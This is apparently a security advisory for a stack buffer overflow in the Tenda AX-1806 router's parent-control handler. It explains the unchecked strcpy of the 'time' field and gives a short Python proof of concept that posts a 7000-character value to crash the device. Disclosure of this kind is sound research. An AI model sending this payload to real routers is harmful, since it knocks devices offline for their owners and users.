


# Tenda Vulnerability

Vendor:Tenda

Product:AX-1806

Version:v1.0.0.1(https://www.tenda.com.cn/download/detail-3421.html)

Vulnerability Type: Stack Overflow

Author:Chuanhao Wan


## Vulnerability cause

In the function sub_60CFC, the time value is obtained from user-controlled input via v4 = (const char *)sub_295C8(a1, "time", &unk_1C2CF0) and is then copied into the buffer at (char *)(a2 + 34) using strcpy((char *)(a2 + 34), v4). The destination (a2 + 34) points to a fixed-size field within a structure or buffer referenced by a2, while strcpy performs no bounds checking on the source string. Because the "time" parameter is directly supplied by the user and no maximum length is enforced, an attacker can provide an excessively long value to cause strcpy to write past the end of the destination field. This results in a buffer overflow that can corrupt adjacent memory within the a2 region, potentially overwriting neighboring fields and causing the process to crash, leading to a Denial of Service condition.

<div  align="center"></div>


## PoC
In order to reproduce the vulnerability, the following steps can be followed:

1.Boot the firmware by qemu-system or other ways (real machine)

2.Attack with the following POC attacks


```
import requests

url = "http://192.168.20.12/goform/saveParentControlInfo"

time = "A"*7000
data = {
"time": time
}

r = requests.post(url, data=data)
print(r.status_code, r.text)

```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
<div  align="center"></div>